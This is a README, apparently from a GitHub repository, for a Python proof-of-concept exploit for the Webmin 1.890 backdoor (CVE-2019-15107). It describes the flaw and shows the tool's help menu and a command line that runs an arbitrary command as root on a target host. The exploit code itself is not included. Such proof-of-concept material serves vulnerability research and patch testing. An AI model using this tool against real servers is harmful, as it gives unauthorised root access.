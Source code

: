 # Webmin 1.890 expired Remote Root

## CVE-2019-15107

Webmin version **1.890** was released with a backdoor that could allow anyone with knowledge of it to execute commands as root. Versions 1.900 to 1.920 also contained a backdoor using similar code, but it was not exploitable in a default Webmin install. Only if the admin had enabled the feature at Webmin -> Webmin Configuration -> Authentication to allow changing of expired passwords could it be used by an attacker. 

## Requeriments

you need [pip3](https://help.dreamhost.com/hc/es/articles/115000699011-Usar-pip3-para-instalar-m%C3%B3dulos-de-Python3) to install this packages.

  - requests
  - argparse
  - os
  - bs4

## Help Menu

```bash
$ python3 Webmin_exploit.py --help
usage: Webmin_exploit.py [-h] -host IP [-port Port] [-cmd Command]

Webmin 1.890 expired Remote Root POC

optional arguments:
  -h, --help    show this help message and exit
  -host IP      Host to attack
  -port Port    Port of the host ~ 10000 is Default
  -cmd Command  Command to execute ~ id is Default

python3 Webmin_exploit.py -host target -port 10000 -cmd id
```

## Usage

```bash
$ python3 POC.py -host target -port 10000 -cmd id
```
## Demostration

[![POC](https://raw.githubusercontent.com/n0obit4/Webmin_1.890-POC/master/Demostration.png?token=AJY45AX3R2OFKXBIFPWJQDS7LWKWE)
